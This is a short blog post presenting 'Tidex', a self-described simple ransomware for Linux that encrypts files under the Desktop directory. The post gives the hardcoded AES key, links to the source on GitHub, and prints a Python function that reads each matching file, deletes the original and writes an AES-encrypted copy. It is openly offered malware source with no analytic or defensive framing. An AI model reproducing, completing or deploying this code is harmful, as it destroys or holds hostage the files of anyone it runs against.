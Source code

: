 ```yaml
---
title: "[EN] Tidex Ransomware"
excerpt: "[EN] Ransomware Tidex for Linux"
date: "Jan 30 2023"
cover_image: "/blog/tidex.webp"
---
```


# Tidex
Simple little Ransomware, only works to encrypt files in the directory path Desktop and subdirectories.

&nbsp;
# Important
At the moment it can only be executed on Linux machines. it lacks decryption function.
The KEY is: hkpykiiqftupr3okl04azj

&nbsp;

Code Example

```python
def _lock():
    for files in all_Ext:
        for _dotFile in glob.glob(files):
            print(_dotFile)
            f = open(f'{__dir()}/{_dotFile}', 'rb')
            dataArr = f.read()
            f.close()
            os.remove(f'{__dir()}/{_dotFile}')
            key = "hkpykiiqftupr3okl04azj"
            aes = pyaes.AESModeOfOperationCTR(key)
            EncryptData = aes.encrypt(dataArr)
            newArr = _dotFile.replace(char, "") + Ext
            newArr = open(f'{newArr}', 'wb')
            newArr.write(EncryptData)
            newArr.close()
```

# [Dowload Here From GitHub](https://github.com/Rawierdt/Tidex)

# Thx
# ~ Rawier.
